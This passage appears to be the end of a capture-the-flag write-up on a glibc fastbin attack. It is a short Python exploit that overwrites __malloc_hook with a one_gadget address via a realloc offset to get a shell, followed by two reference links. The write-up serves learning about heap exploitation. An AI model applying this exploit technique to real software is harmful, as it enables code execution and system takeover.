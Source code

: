 ```python
delete(2)
edit(1, p64(0) * 3 + p64(0x71) + p64(libc.sym['__malloc_hook'] - 0x23) + '\n')
add(0x60, 'idx2')
add(0x60, '0' * 0xb + p64(libc.address + gadget) + p64(libc.symbols['__libc_realloc'] + 0xD) + '\n')

#get shell
p.sendlineafter('choice: ', '1')
p.sendlineafter('size?', str(0x60))
p.interactive()
```

### Reference

[通过realloc调整栈帧来满足onegadget](https://blog.csdn.net/Breeze_CAT/article/details/103789081#realloconegadget_23)

[Fastbin Attack 学习](https://xz.aliyun.com/t/7490)

